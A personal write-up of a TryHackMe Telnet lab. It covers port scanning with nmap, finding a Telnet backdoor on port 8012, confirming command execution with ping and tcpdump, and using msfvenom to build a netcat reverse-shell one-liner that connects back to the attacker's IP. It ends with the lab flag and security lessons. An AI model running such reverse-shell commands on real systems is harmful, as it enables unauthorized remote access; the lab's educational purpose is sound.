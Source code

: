 # 📘 What I Learned About Telnet (From TryHackMe)

---

## 1. 🙋 What Is Telnet?

Telnet acts as a remote control 🎮 for computers, allowing you to connect from your machine (the client) to another machine running a Telnet server. Once connected, you gain command-line access to the remote system as if you were sitting right in front of it.

However, Telnet is inherently insecure: all communication is transmitted in plain text, making it trivial for attackers to eavesdrop and capture sensitive data. This lack of encryption is why Secure Shell (SSH) is preferred—SSH encrypts all traffic, protecting your information from prying eyes.

---

## 2. 🔍 Enumerating Telnet

To identify Telnet services during a penetration test, the first step is to scan for open ports. In my TryHackMe exercise, I used [Nmap](https://nmap.org/) to scan all 65,535 TCP ports (not just the 1,000 most common):

```bash
nmap -p- 10.201.95.144
```

Sample output:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2025-08-05 21:26
Nmap scan report for 10.201.95.144
Host is up (0.19s latency).

PORT     STATE SERVICE
8012/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.12 seconds
```

Only port `8012` was open. To identify the service running on this port, I connected using Telnet:

```bash
telnet 10.201.95.144 8012
```

The session displayed:
```
Trying 10.201.95.144...
Connected to 10.201.95.144.
Escape character is '^]'.

SKIDY'S BACKDOOR. Type .HELP to view commands
.HELP
.HELP: View commands
.RUN <command>: Execute commands
.EXIT: Exit
```

This banner revealed a Telnet-based backdoor on port 8012.

---

## 3. 🔑 Exploiting the Telnet Backdoor

The goal was to obtain a reverse shell on the target system.

First, I needed to verify if arbitrary system commands could be executed. To do this, I used [tcpdump](https://www.tcpdump.org/) on my local machine to monitor for ICMP packets, which would confirm if my commands were executed remotely:

```bash
sudo tcpdump ip proto \\icmp -i tun0
```

Then, from the Telnet session:
```
.RUN ping 10.17.12.230 -c 1
```
And tcpdump captured:
```
10.201.82.158 > 10.17.12.230: ICMP echo request
10.17.12.230 > 10.201.82.158: ICMP echo reply
```
This confirmed the backdoor was executing system commands.

To escalate, I used [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) to generate a Netcat-based reverse shell payload:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

**Payload explanation:**
- `-p` specifies the payload: `cmd/unix/reverse_netcat` (a Unix reverse shell using Netcat)
- `lhost` is your attacker's IP
- `lport` is the attacker's listening port
- `R` outputs the raw payload

Example generated payload:
```bash
mkfifo /tmp/xyz; nc 10.17.12.230 4444 0</tmp/xyz | /bin/sh >/tmp/xyz 2>&1; rm /tmp/xyz
```

I started a Netcat listener on my local machine:
```bash
nc -lvnp 4444
```

Then, executed the payload via Telnet:
```
.RUN mkfifo /tmp/xyz; nc 10.17.12.230 4444 0</tmp/xyz | /bin/sh >/tmp/xyz 2>&1; rm /tmp/xyz
```

Netcat output:
```
listening on [any] 4444 ...
connect to [10.17.12.230] from [10.201.82.158] 33396
```
This means the reverse shell connected successfully! I now had a shell on the target.

I ran basic commands to explore:
```bash
whoami
pwd
ls
```
Found a `flag.txt` file:
```bash
cat flag.txt
```
And retrieved the flag:
```
THM{y0u_g0t_th3_t3ln3t_fl4g}
```

---

## 5. 💡 Lessons Learned

- **Document Everything:** Keep detailed notes during enumeration. Valuable clues often emerge later when planning and executing exploits.
- **Don’t Assume Defaults:** When common ports are closed, always scan all ports. Real-world CTFs and assessments often hide services on non-standard ports.
- **Security by Obscurity ≠ Security:** Just because a service is running on an uncommon port doesn’t mean it’s secure. Proper encryption and access controls are essential.
- **Plaintext Protocols Are Dangerous:** Protocols like Telnet should not be used for remote administration on modern systems due to their lack of encryption.

---

Telnet is a classic protocol, but its weaknesses highlight the importance of secure alternatives like SSH. Always enumerate thoroughly, keep good notes, and never underestimate the value of persistence in finding a foothold.

**Tags:** `tryhackme`, `telnet`, `nmap`, `reverse-shell`, `cybersecurity`
